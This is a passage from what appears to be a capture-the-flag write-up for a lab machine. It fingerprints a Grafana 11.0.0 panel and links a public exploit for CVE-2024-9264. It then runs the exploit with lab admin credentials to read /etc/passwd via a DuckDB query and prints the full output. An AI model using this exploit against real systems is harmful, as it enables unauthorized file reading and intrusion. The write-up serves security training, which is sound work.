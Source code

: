 Knowing all this, we can begin exploitation.



# EXPLOITATION
---

First of all, let's check the version of the Grafana panel we are in, we can do this by clicking the `(?)` button on top right of the screen:


![](CYBERSECURITY/IMAGES/Pasted%20image%2020250601145933.png)

As seen, we are dealing with `Grafana V.11.0.0`, let's check an exploit for this version:


![](CYBERSECURITY/IMAGES/Pasted%20image%2020250601150010.png)

We find `CVE-2024-9264`, let's check it out:


Link: https://github.com/nollium/CVE-2024-9264


![](CYBERSECURITY/IMAGES/Pasted%20image%2020250601150053.png)
![](CYBERSECURITY/IMAGES/Pasted%20image%2020250601150331.png)


Ok, so based on this, we can perform arbitrary file read and luckily for us, even RCE, let's test the script:

```
python3 CVE-2024-9264.py -u admin -p 0D5oT70Fq13EvB5r -f /etc/passwd http://grafana.planning.htb
[+] Logged in as admin:0D5oT70Fq13EvB5r
[+] Reading file: /etc/passwd
[+] Successfully ran duckdb query:
[+] SELECT content FROM read_blob('/etc/passwd'):
root:x:0:0:root:/root:/bin/bash
daemon:x:1:1:daemon:/usr/sbin:/usr/sbin/nologin
bin:x:2:2:bin:/bin:/usr/sbin/nologin
sys:x:3:3:sys:/dev:/usr/sbin/nologin
sync:x:4:65534:sync:/bin:/bin/sync
games:x:5:60:games:/usr/games:/usr/sbin/nologin
man:x:6:12:man:/var/cache/man:/usr/sbin/nologin
lp:x:7:7:lp:/var/spool/lpd:/usr/sbin/nologin
mail:x:8:8:mail:/var/mail:/usr/sbin/nologin
news:x:9:9:news:/var/spool/news:/usr/sbin/nologin
uucp:x:10:10:uucp:/var/spool/uucp:/usr/sbin/nologin
proxy:x:13:13:proxy:/bin:/usr/sbin/nologin
www-data:x:33:33:www-data:/var/www:/usr/sbin/nologin
backup:x:34:34:backup:/var/backups:/usr/sbin/nologin
list:x:38:38:Mailing List Manager:/var/list:/usr/sbin/nologin
irc:x:39:39:ircd:/run/ircd:/usr/sbin/nologin
gnats:x:41:41:Gnats Bug-Reporting System (admin):/var/lib/gnats:/usr/sbin/nologin
nobody:x:65534:65534:nobody:/nonexistent:/usr/sbin/nologin
_apt:x:100:65534::/nonexistent:/usr/sbin/nologin
grafana:x:472:0::/home/grafana:/usr/sbin/nologin
```
